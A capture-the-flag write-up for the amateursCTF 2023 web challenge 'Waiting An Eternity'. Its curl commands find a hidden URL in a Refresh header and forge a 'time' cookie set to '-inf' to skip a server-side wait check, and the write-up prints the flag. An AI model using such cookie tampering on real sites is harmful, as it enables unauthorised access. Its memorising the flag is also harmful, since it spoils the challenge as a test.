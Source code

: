 ```yaml
---
title: amateursCTF - Waiting An Eternity
date: Thu Jul 20 12:35:45 AM +04 2023
categories: [Writeup]
tags: [ctf,amateursctf,amateursctf2023,web]
---
```


## Description

By `voxal`

My friend sent me this website and said that if I wait long enough, I could get and flag! Not that I need a flag or anything, but I've been waiting a couple days and it's still asking me to wait. I'm getting a little impatient, could you help me get the flag?

[waiting-an-eternity.amt.rs](https://waiting-an-eternity.amt.rs/)

## Solution

Visiting website gives us simple HTTP response. Let's try viewing headers.

```
➜ curl -sS -D - https://waiting-an-eternity.amt.rs/
HTTP/1.1 200 OK
Content-Length: 21
Content-Type: text/html; charset=utf-8
Date: Wed, 19 Jul 2023 20:21:54 GMT
Refresh: 1000000000000000000000000000000000000000000000000000000000000000000000000000000000000000; url=/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a
Server: gunicorn

just wait an eternity
```

0w0 Interesting...

```bash
➜ curl -sS -D - https://waiting-an-eternity.amt.rs/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a
HTTP/1.1 200 OK
Content-Length: 38
Content-Type: text/html; charset=utf-8
Date: Wed, 19 Jul 2023 20:22:26 GMT
Server: gunicorn
Set-Cookie: time=1689798146.8231204; Path=/

welcome. please wait another eternity.
```

Hmmm... We get a cookie `time`, is that how long we waited? What if we send cookie to be huge value? 

```bash
➜ curl -sS -D - https://waiting-an-eternity.amt.rs/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a -b 'time=9999999999'
HTTP/1.1 200 OK
Content-Length: 80
Content-Type: text/html; charset=utf-8
Date: Wed, 19 Jul 2023 20:23:21 GMT
Server: gunicorn

you have not waited an eternity. you have only waited -8310201797.351136 seconds
```

Time is now negative, but we still need to wait an eternity... `time` cookie may be the start point of when we visit website. Something like `website_visit_time - n_seconds_elapsed = n_seconds_waited`.

If we send `inf` we get `you have only waited -inf seconds`, so what if we wait `-inf`?

```bash
➜ curl -sS -D - https://waiting-an-eternity.amt.rs/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a -b 'time=-inf'
HTTP/1.1 200 OK
Content-Length: 59
Content-Type: text/html; charset=utf-8
Date: Wed, 19 Jul 2023 20:25:36 GMT
Server: gunicorn

amateursCTF{im_g0iNg_2_s13Ep_foR_a_looo0ooO0oOooooOng_t1M3}
```

> Flag: amateursCTF{im_g0iNg_2_s13Ep_foR_a_looo0ooO0oOooooOng_t1M3}
{: .prompt-tip }